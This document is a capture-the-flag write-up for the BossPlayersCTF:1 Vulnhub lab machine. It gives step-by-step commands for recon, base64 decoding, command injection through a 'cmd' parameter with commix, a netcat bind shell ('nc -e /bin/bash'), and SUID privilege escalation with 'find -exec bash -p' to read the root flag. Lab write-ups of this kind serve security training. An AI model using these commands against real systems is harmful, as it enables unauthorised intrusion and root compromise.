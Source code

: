 # WU_bossplayersCTF1-Vulnhub
Write Up BossPlayersCTF:1 VM Vulnhub

## Netdiscover
`sudo netdiscover -r 192.168.87.0/24`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/netdiscover-2.png)

## nmap
`sudo nmap 192.168.87.4 -A -p- -oN log-nmap.log`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/nmap.png)

## HTTP
`http://192.168.87.4/`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/http.png)

## robots.txt file
`http://192.168.87.4/robots.txt`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/robots-txt.png)

## Decode Password
`echo bG9sIHRyeSBoYXJkZXIgYnJvCg== | base64 -d`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/decode.png)

## Source Code of the initial webpage
`Ctrl + U`

`WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/ctrl-u.png)

## Decode Again
```
1. echo WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK | base64 -d
2. echo WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK | base64 -d | base64 -d
3. echo WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK | base64 -d | base64 -d | base64 -d

```

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/decode-2.png)

## PHP File 
`http://192.168.87.4/workinginprogress.php`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/url-1.png)

## Whoami URL
`http://192.168.87.4/workinginprogress.php?cmd=whoami`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/url-2.png)

## Commix
`commix -u 'http://192.168.87.4/workinginprogress.php?cmd=whoami'`
```
nc -e /bin/bash -lvp 2048
```

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/commix.png)

## Netcat
`nc 192.168.87.4 2048`

```
uname -a

find / -perm -4000 -type f 2>/dev/null
```

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/nc.png)

## Privilege Escalation
```
find -exec bash -p \;
whoami
ls -al /root
cat /root/root.txt
cat /root/root.txt | base64 -d
```

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/nc-2.png)

